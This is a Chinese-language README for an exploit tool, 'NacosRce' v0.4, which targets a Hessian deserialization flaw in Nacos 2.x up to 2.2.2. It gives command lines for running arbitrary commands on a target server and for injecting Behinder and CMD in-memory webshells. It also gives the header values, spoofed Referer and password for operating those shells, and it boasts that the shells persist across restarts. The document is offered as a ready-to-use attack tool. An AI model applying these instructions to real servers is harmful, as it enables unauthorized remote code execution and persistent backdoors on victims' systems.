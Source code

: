 <a name="QnUES"></a>
## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />**食用方式 **

1. 执行无回显命令	<br />java -jar NacosRce.jar ip:port "command"
2. 同时注入冰蝎&&CMD内存马(推荐)<br />java -jar NacosRce.jar ip:port memshell
3. 如果nacos是win的: java -jar NacosRce.jar ip:port memshell windows

1. 冰蝎内存马使用方法：<br />1、需要设置请求头x-client-data:rebeyond<br />2、设置Referer:https://www.google.com/<br />3、路径随意<br />4、密码rebeyond
2. CMD内存马使用方法：<br />1、需要设置请求头x-client-data:cmd<br />2、设置Referer:https://www.google.com/<br />3、请求头cmd:要执行的命令

v0.4版本实现了：<br />1、不出网漏洞利用<br />2、可多次发起漏洞利用<br />3、注入冰蝎/CMD内存马<br />4、内存马对多版本进行了兼容<br />5、修复windows的bug<br />tips:<br />1、请用jdk1.8<br />2、适用于 Nacos 2.x <= 2.2.2<br />3、非集群的也能打哦<br />4、此内存马重启nacos依然存活

项目地址：[https://github.com/c0olw/NacosRce]
参考文章<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
